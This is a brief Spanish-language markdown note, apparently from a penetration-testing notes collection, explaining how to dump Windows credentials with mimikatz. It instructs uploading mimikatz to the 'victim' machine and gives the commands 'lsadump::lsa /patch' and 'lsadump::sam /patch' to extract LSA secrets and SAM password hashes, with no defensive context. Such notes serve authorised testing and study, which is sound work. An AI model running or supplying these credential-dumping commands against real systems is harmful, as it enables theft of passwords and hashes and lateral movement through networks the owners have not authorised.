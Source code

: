 # Dumpear credenciales con mimikatz
Subimos el mimikatz al equipo victima, lo ejecutamos con `mimikatz.exe` y en la sesión interactiva hacemos lo siguiente para dumpear el lsa:
```
lsadump::lsa /patch
```
También podemos dumpear la SAM con el siguiente comando
```
lsadump::sam /patch
```
